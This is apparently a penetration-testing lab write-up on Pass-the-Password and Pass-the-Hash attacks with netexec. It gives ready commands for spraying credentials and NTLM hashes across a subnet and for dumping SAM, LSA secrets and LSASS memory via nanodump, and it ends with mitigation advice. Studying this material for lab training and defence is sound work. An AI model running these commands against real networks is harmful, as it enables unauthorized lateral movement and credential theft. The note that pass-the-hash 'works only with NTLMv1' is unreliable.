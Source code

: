 ## Overview

"Pass-the-Password" and "Pass-the-Hash" are lateral movement techniques used to exploit valid credentials and hashes to gain unauthorized access to machines within a network. These attacks bypass traditional authentication by directly passing the password or hash to authenticate with systems.

### Requirements for Pass Attacks

- **Valid credentials** (username and password) or **hashes** (dumped from tools like `secretsdump.py`).
- Administrative privileges (local admin) on the target systems.
- Tools: We'll be using `netexec` (`nxc` for shorthand in this lab) for these operations.

`netexec` is a tool used for executing commands over SMB and is designed for lateral movement across a Windows network, replacing the older `crackmapexec`. It allows you to interact with remote systems by passing passwords or hashes for local or domain accounts.

---

## Netexec Functionality

### Pass-the-Password Attack
Use a known password to authenticate across a network and check for local admin rights:
`netexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- `<ip/CIDR>`: Target IP address or range.
- `<user>`: Username to authenticate.
- `<domain>`: Domain name (use `.` for local accounts).
- `<pass>`: Password for the account.
### Pass-the-Hash Attack
Authenticate using an NTLM hash instead of a plaintext password:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`

- `-H <hash>`: NTLM hash of the password.
- `--local-auth`: Use local account authentication.
### Dumping SAM

Retrieve the Security Account Manager (SAM) database containing local user credentials:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`
### Enumerating Shares

List shared resources on remote systems:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares`
### Dumping LSA Secrets

Extract Local Security Authority (LSA) secrets, which might hold sensitive information such as service account credentials:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa`
### Using Modules

Run specific modules like `nanodump` to dump credentials from LSASS or perform other operations:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M nanodump`

---

## Lab Environment and Example Walkthrough

Below is the walkthrough of running pass-the-password and pass-the-hash attacks in the lab environment.

---

### Pass the Password

#### Step 1: Using NXC

`nxc smb <ip/CIDR> -u <user> -d <domain> -p <pass>` 

For example:

`nxc smb 192.168.163.0/24 -u j.smith -d quigley.local -p Password1`

- When conducting password pass attacks, it’s important to specify ranges or subnets.

![Pasted image 20250220214045](https://github.com/user-attachments/assets/e814a720-569f-47bb-8b40-c1ddd4aba228)


- In this example, the password was passed to both workstations, where **j.smith** is a local administrator.
- On the Domain Controller (DC), while we had successful authentication, **j.smith** wasn’t a local admin, so we didn’t gain control of the DC.

---

### Pass the Hash

#### **Works Only with NTLMv1**

#### Step 1: Using NXC

`nxc smb <ip/CIDR> -u <user> -H <hash> --local-auth` 

For example:

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth`

![Pasted image 20250220214600](https://github.com/user-attachments/assets/9e015e73-4736-425c-aa78-47f957b91dfe)


- It's common to reuse the same local administrator password across devices in an environment. Once one is compromised, it can be passed around to other machines.
- In this case, the DC's local admin password was different from the one used on the workstations, so we were unable to access the DC.

---

### Dumping SAM

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam`

![Pasted image 20250220214813](https://github.com/user-attachments/assets/0d2ea076-1598-4693-aa4d-f0c898c32a11)

- This command dumps the hashes and stores them in our database.

---

### Share Enumeration

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares`

![Pasted image 20250220214949](https://github.com/user-attachments/assets/9e87858f-0f21-463f-94b5-675f5fb449eb)


---

### LSA Dump

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa`

- Secrets dumped from LSA might not always be valid. Passwords could have changed since they were last stored and may be outdated.

---

### Lsassy/Nanodump

`sudo nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M nanodump`

![Pasted image 20250220222133](https://github.com/user-attachments/assets/73dde39c-5d95-4735-b69e-875b1765b816)

---

## Pass Attack Mitigation

Limit account re-use:
	• Avoid re-using local admin password
	• Disable Guest and Administrator accounts
	• Limit who is a local administrator (least privilege) 
• Utilize strong passwords:
	• The longer the better (>14 characters)
	• Avoid using common words
• Privilege Access Management (PAM):
	• Check out/in sensitive accounts when needed
	• Automatically rotate passwords on check out and check in
	• Limits pass attacks as hash/password is strong and constantly rotated
